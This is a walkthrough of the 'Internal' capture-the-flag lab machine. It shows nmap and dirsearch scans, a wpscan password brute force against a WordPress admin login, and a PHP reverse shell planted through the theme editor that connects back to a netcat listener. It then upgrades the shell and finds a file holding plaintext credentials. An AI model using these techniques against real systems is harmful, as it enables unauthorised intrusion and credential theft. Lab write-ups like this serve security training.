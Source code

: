 # Internal
* IP = 10.10.103.219
* Add to /etc/hosts as Internal.thm

## Initial Enumerating And Scanning:
- Nmap scan to discover open ports: `nmap -sV -sC -O -p 21,22,80,8080,139,143,445,443,25,110 internal.thm`
- **nmap Scan Results:**
```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
25/tcp   closed smtp
80/tcp   open   http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp  closed pop3
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
8080/tcp closed http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.00 seconds
```
- We can see there is a open `http` on port `80`
- Also note of `8080/tcp closed http-proxy`

- dirsearch to search for hidden directories and files on the web server: `dirsearch -u internal.thm -x 400,500 -r -t 100`
- **dirsearch Scan Results:**
```
[14:08:56] Starting: 
[14:09:03] 403 -  277B  - /.ht_wsr.txt                                      
[14:09:03] 403 -  277B  - /.htaccess.bak1                                   
[14:09:03] 403 -  277B  - /.htaccess.save                                   
[14:09:03] 403 -  277B  - /.htaccess_orig
[14:09:03] 403 -  277B  - /.htaccess.orig                                   
[14:09:03] 403 -  277B  - /.htaccess_sc
[14:09:03] 403 -  277B  - /.htaccessBAK                                     
[14:09:03] 403 -  277B  - /.htaccess_extra
[14:09:03] 403 -  277B  - /.htaccess.sample
[14:09:03] 403 -  277B  - /.htaccessOLD
[14:09:03] 403 -  277B  - /.htm                                             
[14:09:03] 403 -  277B  - /.html
[14:09:03] 403 -  277B  - /.htaccessOLD2                                    
[14:09:03] 403 -  277B  - /.htpasswd_test                                   
[14:09:03] 403 -  277B  - /.httr-oauth
[14:09:03] 403 -  277B  - /.htpasswds
[14:09:04] 403 -  277B  - /.php                                             
[14:09:12] 301 -  311B  - /blog  ->  http://internal.thm/blog/              
[14:09:12] 200 -    2KB - /blog/wp-login.php                                
[14:09:13] 200 -   18KB - /blog/                                            
[14:09:20] 301 -  317B  - /javascript  ->  http://internal.thm/javascript/  
[14:09:26] 301 -  317B  - /phpmyadmin  ->  http://internal.thm/phpmyadmin/  
[14:09:27] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[14:09:27] 200 -    3KB - /phpmyadmin/                                      
[14:09:27] 200 -    3KB - /phpmyadmin/index.php                             
[14:09:30] 403 -  277B  - /server-status/                                   
[14:09:30] 403 -  277B  - /server-status                                    
[14:09:37] 200 -    2KB - /wordpress/wp-login.php                           
[14:09:38] 404 -   51KB - /wordpress/                                       
                                                                             
Task Completed
```
- Under the directory `http://internal.thm/blog/wp-login.php` we have a login page for `wordpress`

![alt text](images/internal_WP-LOGIN-SS.png)
- Basic enumeration on the page with the login credentials using `admin:admin` can see that there is a active user called admin

![alt text](images/WP-ADMIN-SS.png)

- With this information I can try and run a `wpscan` to find the password
- `wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords rockyou.txt -t 100`
- **wpscan Scan Results:**
```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 19 14:42:53 2024
[+] Requests Done: 4219
[+] Cached Requests: 4
[+] Data Sent: 1.487 MB
[+] Data Received: 20.636 MB
[+] Memory used: 320.254 MB
[+] Elapsed time: 00:02:17
```

```
I was able to find that the login credentials are Username: admin, Password: my2boys
```

## Gaining Access To The Machine:
- Since we have an admin account we can use the `Theme Editor` to get ourselves a reverse shell on the machine
- We can use this `php-reverse-shell` from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- I'm going to replace the `archive.php` directory

![alt text](php-shell.png)

- In my terminal I have the following listener setup: `rlwrap nc -lvnp 53`
- I'm listing on port `53` as it is commonly unblocked on outgoing firewalls

- Now when I go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/archive.php` active reverse shell on the machine
```
listening on [any] 53 ...
connect to [10.2.17.217] from (UNKNOWN) [10.10.103.219] 41522
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:11:39 up  1:27,  0 users,  load average: 0.00, 0.02, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

- I upgraded my shell using this python command `python -c 'import pty;pty.spawn("/bin/bash")';`

- In this situation the first thing i'll look for is `.txt` files using this command `find / -name "*.txt" -type f 2>/dev/null`
- I was able to find a text file in the `/opt` directory called `wp-save.txt` so its worth taking a look at
- **Contents of `wp-save.txt`:**
```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```